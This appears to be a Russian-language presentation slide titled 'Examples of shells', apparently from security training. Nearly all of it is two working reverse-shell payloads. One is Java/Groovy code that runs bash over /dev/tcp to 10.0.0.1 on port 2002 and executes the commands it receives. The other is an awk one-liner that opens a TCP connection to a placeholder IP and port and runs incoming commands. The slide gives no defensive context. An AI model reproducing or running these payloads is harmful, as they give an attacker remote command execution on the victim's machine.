

# Примеры шеллов
Java:
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

Awk:
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null